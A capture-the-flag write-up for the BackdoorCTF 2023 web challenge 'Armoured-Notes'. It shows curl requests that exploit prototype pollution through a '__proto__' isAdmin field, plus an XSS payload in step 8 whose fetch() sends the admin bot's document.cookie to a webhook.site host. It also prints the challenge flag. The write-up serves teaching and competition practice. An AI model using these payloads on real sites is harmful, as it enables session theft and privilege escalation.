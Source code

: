 ```yaml
---
title: Armoured-Notes
date: 2023-12-21 19:00:00 +530
categories: [writeups]
tags: [ctf, web,BackdoorCTF2023]
---
```


# Armoured-notes

## Description

Can you break my emerging note making app? It is still in beta. I have a feeling that it is not secure enough

Author - p1r4t3 aka me :)

## Writeup

1. On launching the challenge we land at a homepage which has fields for username,password and a note, seems like an ordinary xss?

![homepage](/assets/images/Screenshot_20231221_163148.png)

<hr>

2. On reading the source provided we get to know that only user with name 'admin' can login with his supersecure password which obviously we can not know as it is a environment variable. So what do we do ?

![auth](/assets/images/Screenshot_20231221_163342.png)

3. On looking closely we see that a dangerous duplicate function is being used which copies all properties of request body to another object without checking the keys.
This gives rise to a well known JS vulnerability "Prototype Pollution". Read more about it <a href="https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution">here</a>.

4. Also on reading the source further we find that before saving the note a special property 'isAdmin' is set to 'True' after which the note gets saved in the database. Maybe we will get the xss now?

```bash
curl -H "Content-Type: application/json" -X POST -d '{"uname":"admin","pass":"123","message":"asdf","__proto__": {"isAdmin": "true"}}' http://localhost:3000/create
```
![shell](/assets/images/Screenshot_20231221_164126.png)

5. After creating the note we get a specific note id and a link to access the note. Suppose we try our old xss payload and go to http://localhost:3000/post/<:id>

```bash
curl -H "Content-Type: application/json" -X POST -d '{"uname":"admin","pass":"123","message":"<script>alert()</script>","__proto__": {"isAdmin": "true"}}' http://localhost:3000/create
```
![shell](/assets/images/Screenshot_20231221_171320.png)

6. And... Tada nothings happens :)
![post](/assets/images/Screenshot_20231221_171638.png)

7. On looking further we find a escapeHtml function which doesnot allow any dangerous character to be inserted in the note. So now what?. We look into source futher and we see an interesting function "transformIndexHtml". On reading further about it we can find <a href="https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title"> this </a> . :) Looks like we are done.

![vuln](/assets/images/Screenshot_20231221_164413.png)

![xss](/assets/images/Screenshot_20231221_164311.png)

8. Lets give this link to our admin bot :) and get the flag
```bash
http://localhost:3000/posts/657c83681afbebe2ea01432d/?%22%3E%3C/script%3E%3Cscript%3Efetch(`https://webhook.site/566eb0b9-796b-48d6-bcd5-fbb9584eee71?${document.cookie}`)%3C/script%3E
```
![bot](/assets/images/Screenshot_20231221_164823.png)
![flag](/assets/images/Screenshot_20231221_164951.png)

9. A ratelimiter was configured to block you from making more than 100 requests in 60 minutes (enough to annoy you :)

```bash
flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}
```